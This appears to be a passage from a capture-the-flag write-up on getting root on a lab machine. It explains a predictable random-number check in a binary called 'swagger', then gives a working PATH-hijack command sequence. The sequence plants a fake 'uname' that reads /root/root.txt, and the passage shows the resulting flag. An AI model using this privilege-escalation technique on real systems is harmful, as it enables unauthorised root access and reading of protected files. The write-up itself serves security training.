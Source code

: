 - **Predictable RNG**:  
    The binary uses the input (e.g.,Â `111`) to generate its output. If the RNG is poorly implemented (e.g., uses input as a seed without proper entropy), the output becomes predictable.  
    
    Example:
    - InputÂ `111`Â â†’ OutputÂ `456`.
    - InputÂ `456`Â â†’ OutputÂ `789`.
        
- **Controlled Feedback**:  
    By extracting the output number and piping it back into the binary, the attacker forces the RNG into a deterministic sequence. This bypasses randomness.


![Pasted image 20250404184846.png](../../IMAGES/Pasted%20image%2020250404184846.png)


We can use the following to get `root.txt`, we can change the method and get our `authorized` to gain a shell as root, to the simplicity of things, let's simply read the flag:


```
TD=$(mktemp -d)
echo 'cat /root/root.txt' > "$TD/uname"
chmod a+x "$TD/uname"
export PATH=$TD:$PATH
echo 667 | /srv/time-turner/swagger | sed -n 2p | cut -d ' ' -f 5 | /srv/time-turner/swagger
```

We get this output:

```
Guess my number: Nice use of the time-turner!
This system architecture is RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}
```

Root flag is:

```
RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}
```

